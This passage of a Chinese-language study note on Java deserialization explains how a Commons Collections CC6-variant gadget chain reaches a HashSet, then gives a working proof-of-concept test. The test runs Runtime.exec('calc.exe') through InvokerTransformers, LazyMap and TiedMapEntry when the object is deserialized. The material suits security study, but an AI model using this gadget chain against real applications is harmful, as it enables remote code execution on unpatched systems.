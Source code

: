     ![image-20240927104415467](Serialization-Java/image-20240927104415467.png)
    总结一下，其遍历传入的 `Collection<>`，将每个元素加入到 `HashSet.map` 的 `key`。那么只需要我们传入的 `Collection<>` 是链中 `HashMap` 的 `keySet()` 就行。

3. 通过构造函数来传入的 PoC 如下：
    ```java
    // CC 4.0
    @Test
    public void testCC6_2_Change() throws NoSuchFieldException, IllegalAccessException {
        // 1. 构造链 sink
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer<>(Runtime.class),
                new InvokerTransformer<>("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer<>("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer<>("exec", new Class[]{String.class}, new Object[]{"calc.exe"}),
        };
        ChainedTransformer transformedChain = new ChainedTransformer(transformers);
        // 2. 构造 chain2
        LazyMap<Object, Object> lazyMap = LazyMap.lazyMap(new HashMap<>(), new ChainedTransformer());
        // 3. 然后构建 chain1，创建 TiedMapEntry，注意这里，它最终会调用到 LazyMap.get("EndlessShw")，由于 LazyMap 中没有键为 EndlessShw，所以会向里面塞一个 key 为 EndlessShw
        // 在 CC1 中提到，LazyMap `get()` 获取不到 key 时，从而调用 `transform()`，因此要清除掉他的 Key
        TiedMapEntry lazyMapTiedMapEntry = new TiedMapEntry<>(lazyMap, "EndlessShw");
        // 4. 创建 HashSet 和 HashMap，这里直接通过构造函数来传入
        HashMap<Object, Object> hashMap = new HashMap<>();
        hashMap.put(lazyMapTiedMapEntry, "EndlessShw");
        HashSet toBeSerializedHashSet = new HashSet(hashMap.keySet());
        // 5. 将 LazyMap 中存放的 key 删除
        lazyMap.remove("EndlessShw");
        // 6. 通过反射获取 LazyMap 的值，put 后改回来，最终让其在反序列化时触发
        Field factoryField = lazyMap.getClass().getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, transformedChain);
        String serialize = serialize(toBeSerializedHashSet);
        unSerialize(serialize);
    }
    ```
